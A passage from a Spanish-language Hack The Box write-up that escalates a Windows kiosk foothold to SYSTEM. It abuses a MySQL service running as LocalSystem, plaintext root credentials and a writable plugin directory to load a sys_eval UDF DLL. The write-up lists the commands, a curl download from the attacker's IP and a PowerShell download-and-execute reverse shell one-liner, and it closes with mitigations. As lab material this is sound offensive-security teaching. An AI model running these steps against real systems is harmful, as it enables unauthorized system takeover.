
*Fig. 7.1 — Volcado de `C:\ProgramData\HTB Airways\refresh-dates.bat`. **Pista:** la presencia de la credencial de MySQL `root` en texto claro (`-u root -pHTB@i****`), origen de la escalada de la etapa 8. La contraseña fue **redactada (censurada) también en la captura** para esta versión pública.*

**Contexto del servicio (clave para el privesc):**

```powershell
Get-CimInstance Win32_Service -Filter "Name='MySQL80'" | fl Name,StartName,PathName,StartMode
# Name      : MySQL80
# StartName : LocalSystem            <-- el servicio corre como SYSTEM
# PathName  : C:\MySQL\bin\mysqld.exe --defaults-file=C:\MySQL\my.ini MySQL80
# StartMode : Auto
```


*Fig. 7.2 — Invocación del cliente `mysql.exe` desde el shell del kiosco, contexto desde el que se ejecutan las consultas de la etapa 8.*

```powershell
& 'C:\MySQL\bin\mysql.exe' -u root "-pHTB@i****" -e "SELECT @@version, @@plugin_dir, @@secure_file_priv;"
# 8.0.42 | C:\MySQL\lib\plugin\ | NULL
```

**Razonamiento:** `mysqld.exe` corriendo como `LocalSystem` significa que cualquier cosa que MySQL ejecute lo hace como **SYSTEM**. El camino clásico es **UDF (User Defined Function)**: cargar una DLL con funciones que ejecutan comandos (`sys_eval`/`sys_exec`) y llamarlas desde SQL.

---

## 8. Privilege escalation — MySQL UDF → SYSTEM

**Primer intento (descartado):** leer la flag directamente con `LOAD_FILE`.

```sql
SELECT LOAD_FILE('C:/Users/Administrator/Desktop/root.txt');
```

Devolvió `NULL`. Motivo: **`secure_file_priv = NULL`** desactiva en MySQL **todas** las operaciones de import/export de ficheros (`LOAD_FILE` y `INTO OUTFILE/DUMPFILE`). Por tanto este atajo queda cerrado y también obliga a **no** poder escribir la DLL vía SQL (`INTO DUMPFILE`). Es un error común asumir que `root` de MySQL puede leer/escribir ficheros: **`secure_file_priv` manda por encima del privilegio SQL**.

**Solución:** escribir la DLL **por el sistema de archivos**, no por SQL. Comprobación de permisos sobre el directorio de plugins:

```powershell
icacls "C:\MySQL\lib\plugin"
# BUILTIN\Administrators:(I)(OI)(CI)(F)
# NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
# BUILTIN\Users:(I)(OI)(CI)(RX)
# NT AUTHORITY\Authenticated Users:(I)(M)          <-- MODIFY para usuarios autenticados
```

`Kios****` es "Authenticated User" → **puede escribir** en el directorio de plugins. Ese permiso laxo es el habilitador del privesc.

**Payload UDF (64 bits, exporta `sys_eval` y `sys_exec`):**

```bash
cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys.dll \
   /home/user/htb/layover/www/lib_mysqludf_sys.dll
# (confirmado: PE32+ DLL x86-64; exporta sys_eval, sys_exec, sys_get, sys_set, sys_bineval)
```

**Colocación en el objetivo (como Kios****):**

```powershell
curl.exe -s -o "C:\MySQL\lib\plugin\lib_mysqludf_sys.dll" http://10.10.16.77:8080/lib_mysqludf_sys.dll
Get-Item "C:\MySQL\lib\plugin\lib_mysqludf_sys.dll" | fl Length
# Length : 7168
```

**Creación de la función y ejecución de comando:**

```powershell
& 'C:\MySQL\bin\mysql.exe' -u root "-pHTB@i****" -e `
  "DROP FUNCTION IF EXISTS sys_eval; CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.dll';
   SELECT sys_eval('whoami') AS WHOAMI;"
# WHOAMI
# nt authority\system        <-- privesc confirmado
```

**Evidencia visual:**


*Fig. 8.1 — Consola PowerShell del kiosco (`...\Downloads\cmd.exe - powershell`) ejecutando `mysql.exe` con una prueba de la función UDF: la llamada a `sys_eval` devuelve `ok`, confirmando ejecución de comandos mediante la DLL. La porción inferior muestra un intento posterior fallido de relanzar la reverse shell, documentado en el Anexo A. El `whoami` como `nt authority\system` se presenta en el bloque de salida anterior, pero no aparece en esta captura ni hay un archivo de transcripción del listener adjunto al repositorio.*

---

## 9. `root.txt` y detalle a documentar (escape de backslashes)

Intento directo:

```sql
SELECT sys_eval('type C:\Users\Administrator\Desktop\root.txt');
--> NULL
```

**Por qué falló (detalle fino pero importante):** en MySQL, **`\` es carácter de escape dentro de literales de cadena**. La ruta se corrompe antes de llegar a `cmd.exe`:
- `\U` → `U`
- `\A` → `A`
- `\D` → `D`
- `\r` → **retorno de carro** (¡`...\root.txt` se rompe!)

Resultado: `C:UsersAdministratorDesktop␍oot.txt` → comando inválido → salida vacía/`NULL`.

**Corrección:** duplicar los backslashes (`\\`) para que MySQL los interprete como `\` literal.

```powershell
& 'C:\MySQL\bin\mysql.exe' -u root "-pHTB@i****" -e `
  "SELECT sys_eval('dir C:\\Users') AS USERS;
   SELECT sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt') AS ROOTFLAG;"
# ROOTFLAG
# 52c311d2****
```

> Regla práctica: cuando se pasa una **ruta Windows** a `sys_eval`/`sys_exec` desde SQL, hay que **doblar los backslashes** o usar contextos que no procesen escapes.

**Root flag:** `52c311d2****`

> **Nota de evidencia.** El bloque anterior reproduce la lectura de `root.txt` anotada durante la sesión interactiva del listener `nc`. La ventana del listener no se capturó y el repositorio no incluye su transcripción original; en esta versión pública la salida puede revisarse como texto del write-up, pero no verificarse de forma independiente con una captura o un log adjunto.

---

## 10. Mitigaciones recomendadas

| # | Hallazgo | Impacto | Recomendación |
|---|----------|---------|---------------|
| 1 | `/api/status` entrega el **serial sin autenticación** y el serial es **la contraseña** del portal | Foothold | Eliminar el endpoint de info no autenticado; usar contraseñas reales y aleatorias, nunca identificadores de dispositivo como secreto |
| 2 | Credenciales de `Kios****` almacenadas y **mostradas en el dashboard** | Reutilización de credenciales | No almacenar secretos en el front; rotación y gestor de secretos |
| 3 | Cuenta de kiosco con **acceso RDP** y escape vía navegador/diálogo | Sesión interactiva | Bloquear RDP para cuentas de kiosco; *AppLocker*/WDAC para impedir `cmd.exe`/`powershell.exe`; *shell* del kiosco en modo `Assigned Access` real |
| 4 | Credenciales de MySQL `root` **en claro** en un `.bat` | Escalada | Secretos fuera del disco/local de texto plano; política de mínimos privilegios para la cuenta de la app (no `root`) |
| 5 | Servicio **MySQL80 corriendo como `LocalSystem`** | Root del host | Ejecutar el servicio con una **cuenta de servicio dedicada** de bajos privilegios (p. ej. `NT SERVICE\MySQL80`) |
| 6 | **`C:\MySQL\lib\plugin` con `Modify` para `Authenticated Users`** | Ejecución de código SYSTEM (UDF) | Restringir la ACL del directorio de plugins a `SYSTEM`/`Administrators`; revisar permisos de toda la ruta de instalación |
| 7 | **`secure_file_priv`** correctamente en `NULL` | — (positivo) | Mantenerlo. Nota: no bastó para evitar la escalada porque el ataque usó el **sistema de archivos**, no SQL |

**Cadena de confianza rota:** el punto 6 es el que convierte "acceso como usuario de kiosco" en **SYSTEM**. Aunque `secure_file_priv=NULL` bloquea la escritura por SQL, el permiso `Modify` en el directorio de plugins permite depositar la DLL por el sistema de archivos y cargarla como `SYSTEM`.

---

## Anexo A — Intentos fallidos y por qué

Documentar lo que **no** funcionó es tan importante como lo que funcionó: explica la ruta elegida.

1. **`nmap -sC -sV` inicial "vacío"** → no significaba host caído; eran puertos fuera del top-1000 / filtrados. Se resolvió con `-p-`.
2. **`ffuf` inicial lleno de resultados** → redirección genérica (wildcard) 302 a `/login`. Se resolvió con `-fc 302` para filtrar el ruido.
3. **WinRM con `Kios****`** → **rechazado por política**, no por credencial. No se descartó la credencial hasta validarla por RDP.
4. **`nxc rdp`** → fallo TLS/NLA (`SSL_NOT_ALLOWED_BY_SERVER`). Se resolvió usando `xfreerdp3` como cliente completo.
5. **Command injection en 8443 (time-based)** → sin efecto observable; descartado tras pruebas temporizadas.
6. **Compartir payload por SMB (`\\10.10.16.77\share\rs.ps1`)** → bloqueado por política: *"You can't access this shared folder because your organization's security policies block unauthenticated guest access."* Se cambió a **HTTP** (`IWR`/`curl.exe`).
7. **Uso de `&` en `cmd.exe`** → error de parseo en PowerShell; se pasó a **`;`** como separador de sentencias.
8. **`LOAD_FILE` y `INTO DUMPFILE`** → deshabilitados por `secure_file_priv=NULL`. Se abandonó el atajo SQL y se depositó la DLL vía sistema de archivos.
9. **`sys_eval('type C:\...')` → `NULL`** → corrupción de la ruta por el **escape de backslashes de MySQL**. Se corrigió duplicando `\\`.
10. **Estabilidad de la reverse shell** → un `Ctrl+C` enviado al listener local cerró el socket y tumbó el shell remoto; se reconectó relanzando el payload desde `cmd.exe` por RDP. Moraleja operativa: no enviar `Ctrl+C` al proceso `nc` que sostiene un shell interactivo.
11. **`iex(iwr('http://.../rs.ps1'))` sin `-UseBasicParsing`** → falla con `NotSupportedException` (*"The response content cannot be parsed because the Internet Explorer engine is not available"*). El motor IE no está disponible en el host. Alternativa validada en vivo: `iex((new-object net.webclient).downloadstring('http://10.10.16.77:8080/rs.ps1'))`.
12. **Reconexión del payload sin listener activo** → el host devuelve `No connection could be made because the target machine actively refused it 10.10.16.77:9001`; hay que **relanzar el listener antes** de volver a ejecutar el payload.


*Fig. A.1 — Captura de un intento de reverse shell descartado: error de parseo/escape al pasar la sentencia por PowerShell. Ilustra por qué se documentan también los caminos fallidos.*

---

## Anexo B — Indicadores / comandos clave

**Puertos:** 135, 3389, 5985, 8443
**Endpoint vulnerable:** `GET https://10.129.163.145:8443/api/status` (fuga de serial)
**Serial/contraseña portal:** `NX-DH-****-****`
**Cuenta kiosco:** `Kios**** : K!0sk****`
**Credenciales MySQL:** `root : HTB@i****` (en `C:\ProgramData\HTB Airways\refresh-dates.bat`)
**Servicio vulnerable:** `MySQL80` (`StartName=LocalSystem`)
**Ruta explotada:** `C:\MySQL\lib\plugin\` (ACL débil: `Authenticated Users:(M)`)
**UDF:** `lib_mysqludf_sys.dll` → función `sys_eval`

**Flags:**

```
user.txt : 1416fd69****
root.txt : 52c311d2****
```
